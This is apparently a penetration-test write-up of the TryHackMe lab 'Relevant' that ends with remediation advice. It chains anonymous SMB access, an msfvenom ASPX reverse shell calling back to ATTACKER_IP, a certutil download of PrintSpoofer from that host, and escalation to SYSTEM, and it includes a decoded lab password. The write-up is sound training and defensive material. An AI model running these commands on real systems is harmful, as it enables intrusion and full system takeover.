

# Relevant — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (DOCX)](./Relevant_Penetration_Testing_Report.docx)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Relevant (TryHackMe) |
| **Target OS** | Windows Server 2016 Standard |
| **Difficulty** | Medium |
| **Assessment Type** | Network Penetration Test & Windows Privilege Escalation |
| **Core Vulnerabilities** | Writable Anonymous SMB Share, Web-Accessible File Share (IIS Port 49663), Weak Credentials, `SeImpersonatePrivilege` Token Abuse |
| **Initial Access** | ASPX Web Shell Upload via SMB -> HTTP Execution |
| **Privilege Escalation** | `PrintSpoofer` Local Privilege Escalation -> `NT AUTHORITY\SYSTEM` |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | Port | Impact |
| :--- | :---: | :---: | :---: |
| **Anonymous SMB Write Permissions** | High | Port 445 (SMB) | Unauthorized file creation and modification |
| **SMB Share Mapped to Web Root** | Critical | Port 49663 (IIS) | Arbitrary ASPX code execution via web server |
| **SeImpersonatePrivilege Enabled** | High | Local System | Token impersonation privilege escalation to SYSTEM |

---

## 🛠️ Technical Walkthrough

### Phase 1: Reconnaissance & Port Scanning

```bash
nmap -sV -sC -p- -T4 <TARGET_IP>
```
**Open Ports:**
* `80/tcp` — Microsoft HTTPAPI httpd 2.0
* `135/tcp` — Microsoft Windows RPC
* `139/445/tcp` — Microsoft Windows SMB
* `3389/tcp` — Microsoft RDP
* `49663/tcp` — Microsoft IIS httpd 10.0 (High-port web server)

### Phase 2: SMB Enumeration & Web-Mapping Discovery

Connecting to SMB anonymously:
```bash
smbclient -L //<TARGET_IP>/ -N
```
Shares identified:
* `ADMIN$`
* `C$`
* `IPC$`
* `nt4wrksv` *(Accessible and Writable!)*

Connecting to `nt4wrksv`:
```bash
smbclient //<TARGET_IP>/nt4wrksv -N
smb: \> ls
  passwords.txt
smb: \> get passwords.txt
```
Reading `passwords.txt` reveals Base64 encoded strings:
* `Bob - Qm9i...` -> `Bob - !P@$$W0rD!123`
* `Bill - SnV...` -> `Bill - Juw4n...`

Testing web servers for share exposure:
```bash
curl http://<TARGET_IP>:49663/nt4wrksv/passwords.txt
```
The file is accessible! **The writable SMB share is mapped directly into the IIS web root.**

### Phase 3: Initial Foothold via ASPX Web Shell

Generate an ASPX reverse shell with `msfvenom`:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f aspx -o shell.aspx
```

Upload the shell to the target SMB share:
```bash
smbclient //<TARGET_IP>/nt4wrksv -N -c "put shell.aspx"
```

Start a local Netcat listener:
```bash
nc -lvnp 4444
```

Trigger the shell by making an HTTP GET request:
```bash
curl http://<TARGET_IP>:49663/nt4wrksv/shell.aspx
```
We receive an active shell as `iis apppool\defaultapppool`.

### Phase 4: Privilege Escalation via PrintSpoofer

Inspect assigned privileges:
```cmd
whoami /priv
```
Output confirms:
```text
Privilege Name                Description                               State
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Since the system is Windows Server 2016, `PrintSpoofer` is the optimal tool to leverage Named Pipe impersonation against the Print Spooler:

1. Transfer `PrintSpoofer64.exe` onto the system:
   ```cmd
   certutil -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe PrintSpoofer.exe
   ```
2. Execute PrintSpoofer to spawn a shell as `NT AUTHORITY\SYSTEM`:
   ```cmd
   PrintSpoofer.exe -i -c cmd
   ```
3. Verify access:
   ```cmd
   whoami
   nt authority\system
   ```
Flags `user.txt` and `root.txt` are successfully recovered!

---

## 🛡️ Remediation & Defensive Recommendations

1. **Disable Anonymous SMB Access:** Require authentication for all SMB shares and restrict write permissions.
2. **Decouple File Shares from Web Roots:** Never map user-writable SMB directories to public web server virtual directories.
3. **Remove SeImpersonatePrivilege from IIS Application Pools:** If not required, configure service accounts without token impersonation capabilities.
4. **Disable Unnecessary High Ports:** Bind IIS websites to standard ports (80/443) and restrict unneeded listener ports using Windows Firewall.
